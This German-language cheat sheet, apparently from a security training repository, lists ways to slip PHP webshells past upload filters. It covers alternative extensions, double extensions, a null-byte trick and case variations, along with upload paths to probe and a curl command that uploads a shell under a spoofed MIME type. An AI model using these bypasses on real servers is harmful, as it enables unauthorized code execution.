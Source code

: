 # 🐚 PHP Webshell Upload Tricks & Bypasses

---

## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Klassische Upload-Namen für Webshells](#klassische-upload-namen-für-webshells)
- [Tarnung als Bilddatei (Double Extensions)](#tarnung-als-bilddatei-double-extensions)
- [Groß-/Kleinschreibung (Bypass durch Case-Insensitive Filter)](#groß-kleinschreibung-bypass-durch-case-insensitive-filter)
- [Weitere gebräuchliche alternative Erweiterungen](#weitere-gebräuchliche-alternative-erweiterungen)
- [Upload-Verzeichnisse testen](#upload-verzeichnisse-testen)
- [Nützliches Tool: Content-Disposition & MIME-Typ prüfen](#nützliches-tool-content-disposition--mime-typ-prüfen)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)

--- 

## Einleitung

In diesem Dokument findest du typische Dateinamen- und Erweiterungstricks, die bei **File Upload Attacks** verwendet werden, um **PHP-Webshells** trotz Dateifilter oder Upload-Validierung auf einen Webserver zu schleusen.

Solche Techniken sind besonders in **Capture The Flag (CTF)**-Challenges, **Bug Bounty**-Szenarien und **Red Team Assessments** relevant – etwa wenn Dateiuploads nur scheinbar eingeschränkt werden.

> ⚠️ Diese Datei dient ausschließlich zu **Lern- und Testzwecken** in legalen Übungsumgebungen (z. B. TryHackMe, HackTheBox).

---

## Klassische Upload-Namen für Webshells

```text
cmdshell.phtml
cmdshell.pht
cmdshell.php3
cmdshell.php4
cmdshell.php5
cmdshell.php6
cmdshell.inc
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Tarnung als Bilddatei (Double Extensions)

**Ziel:** 
Umgehen von Filtermechanismen, die .php blockieren, aber .jpg oder .png erlauben.

```text
cmdshell.php.jpg
cmdshell.php%00.jpg   # Null-Byte-Trick (nur bei älteren Servern möglich)
cmdshell.php;.jpg     # selten erlaubt, nutzt inkorrekte .htaccess oder MIME-Fehler
cmdshell.jpg.php
```

---

## Groß-/Kleinschreibung (Bypass durch Case-Insensitive Filter)

Manche Filter prüfen nur .php in Kleinbuchstaben:
```text
cmdshell.pHp
cmdshell.Php
cmdshell.PHP
```

---

## Weitere gebräuchliche alternative Erweiterungen
Diese Erweiterungen werden auf manchen falsch konfigurierten Servern ebenfalls als PHP interpretiert:

```text
.pht
.phtml
.php3
.php4
.php5
.inc
```
---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Upload-Verzeichnisse testen
Wenn du eine Datei erfolgreich hochgeladen hast, teste verschiedene Uploadpfade:

```bash
http://[IP]/uploads/cmdshell.php
http://[IP]/admin/uploads/cmdshell.phtml
http://[IP]/images/cmdshell.php.jpg
```

---

## Nützliches Tool: Content-Disposition & MIME-Typ prüfen
Manche Filter prüfen den MIME-Typ. Tools wie Burp Suite oder curl helfen dir, die Content-Type-Header zu manipulieren:

```bash
curl -X POST -F "file=@cmdshell.php;type=image/jpeg" http://target/upload.php
```

---

**💡 Hinweis:** 
Wissen über Webshell-Uploadtricks hilft auch Defensive Security Teams, um Dateiuploads richtig abzusichern und forensisch zu analysieren.

---

## Siehe auch:

- [php_web_shell_usage.md](/03-web-security/webshells/php_web_whell_usage.md)
- [php_rce_cheat_sheet.md](/03-web-security/webshells/php_rce_cheat_sheet.md)
- [post_expoitation_tools.md](/04-os-enumeration/post_exploitation_tools.md)

----

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---